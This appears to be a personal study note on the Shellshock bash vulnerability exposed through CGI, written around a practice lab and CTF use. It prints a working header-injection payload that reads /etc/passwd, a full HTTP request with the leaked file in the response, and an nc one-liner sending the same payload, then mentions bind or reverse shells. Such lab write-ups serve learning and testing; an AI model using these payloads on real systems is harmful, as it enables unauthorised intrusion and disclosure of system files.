 This vulnerability impacts the BASH shell. Bash can be exposed through a __Common Gateway Interface__, aka __CGI__

For this to work we need to find a CGI using shell. That’s very rare nowadays.

[How CGI works](CGI.md)

The exploit is fairly simple. The root of the issue is that bash can have so called __internal function declarations__ inside of ENV variables. This makes us be able to run commands, because we can run arbitrary commands after a function declaration.

So what we have to do is define an empty function, and after that we can run commands like so:

```bash

() { :;}; echo $(</etc/passwd)
```

Here, the `()` is the function body, the `{ :;}` is the empty function. and then we have basically `cat` with `echo`. 

```ad-hint
This can actually be used in CTFs or in systems where echo is restricted but you have access to bash. For example in PicoCTF2023 this could be used in Specialer. 

[My writeup for that](https://0x50d4.github.io/blog/posts/pico-specialer/)
```


> GET /cgi-bin/status HTTP/1.1
Host: ptl-c56c549cb256-c38c7e5679a9.libcurl.me
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: test
test: () { :;}; echo $(</etc/passwd)
X-Requested-With: XMLHttpRequest
Referer: hxxp://ptl-c56c549cb256-c38c7e5679a9.libcurl.me/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

Here is an example request and the response:

> HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sun, 30 Jul 2023 14:44:44 GMT
Content-Type: application/json
Connection: close
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news::/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy::/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Content-Length: 188
>
{ "uptime": " 14:44:44 up 79 days, 16:53, 0 users, load average: 0.00, 0.00, 0.00", "kernel": "Linux b8cbde3bfa41 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux"}

This payload could also be just put into a text format like so:

```swift
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```

Now, we can use a bind shell or a reverse shell to get access to a bash command line.







